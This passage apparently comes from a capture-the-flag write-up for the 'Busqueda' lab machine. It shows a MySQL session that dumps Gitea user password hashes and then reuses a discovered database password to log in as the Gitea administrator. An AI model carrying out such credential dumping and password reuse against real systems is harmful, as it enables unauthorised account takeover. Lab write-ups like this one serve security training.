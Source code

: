 ```console
svc@busqueda:/var/www/app$ mysql -h 172.19.0.2 -u gitea -pyuiu1hoiu4i5ho1uh
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 104
Server version: 8.0.31 MySQL Community Server - GPL

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> select name,is_admin,passwd_hash_algo,passwd from user;
+---------------+----------+------------------+------------------------------------------------------------------------------------------------------+
| name          | is_admin | passwd_hash_algo | passwd                                                                                               |
+---------------+----------+------------------+------------------------------------------------------------------------------------------------------+
| administrator |        1 | pbkdf2           | ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2 |
| cody          |        0 | pbkdf2           | b1f895e8efe070e184e5539bc5d93b362b246db67f3a2b6992f37888cb778e844c0017da8fe89dd784be35da9a337609e82e |
+---------------+----------+------------------+------------------------------------------------------------------------------------------------------+
2 rows in set (0.01 sec)
```

- `ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2`: uncrackable

- password: `yuiu1hoiu4i5ho1uh` -> able to login as administrator on Gitea

![image-20240305033326647](./Busqueda.assets/image-20240305033326647.png)

